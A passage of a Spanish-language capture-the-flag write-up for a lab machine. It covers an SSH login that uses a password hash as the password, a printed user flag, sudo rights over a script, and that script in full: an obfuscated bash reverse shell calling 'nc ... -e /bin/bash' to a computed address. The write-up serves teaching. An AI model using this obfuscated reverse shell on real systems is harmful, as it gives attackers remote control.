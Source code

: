 ## Escalate user dimer

Si intentamos `crackear` la contraseña de `MD5`, veremos que no podremos, pero si la utilizamos de normal con el propio `hash` veremos que pasa:

```shell
ssh dimer@<IP>
```

Metemos como contraseña `bbb2c5e63d2ef893106fdd0d797aa97a` y veremos que estamos dentro, por lo que leeremos la flag del usuario:

> user.txt

```
c92b22766f900e5bdab6700ab88dabb8
```

## Escalate user bilter

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for dimer on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dimer may run the following commands on dockerlabs:
    (bilter : bilter) NOPASSWD: /opt/life.sh
```

Vemos que podemos ejecutar `/opt/life.sh` como el usuario `bilter`, por lo que haremos lo siguiente:

Si vemos que tiene por dentro el script, veremos esto:

```bash
#!/bin/bash

set +m

v1=$((0xCAFEBABE ^ 0xAC1100BA))
v2=$((0xDEADBEEF ^ 0x17B4))

a=$((v1 ^ 0xCAFEBABE))
b=$((v2 ^ 0xDEADBEEF))

c=$(printf "%d.%d.%d.%d" $(( (a >> 24) & 0xFF )) $(( (a >> 16) & 0xFF )) $(( (a >> 8) & 0xFF )) $(( a & 0xFF )))

d=$((b))

e="nc"
f="-e"
g=$c
h=$d

$e $g $h $f /bin/bash &>/dev/null &
```
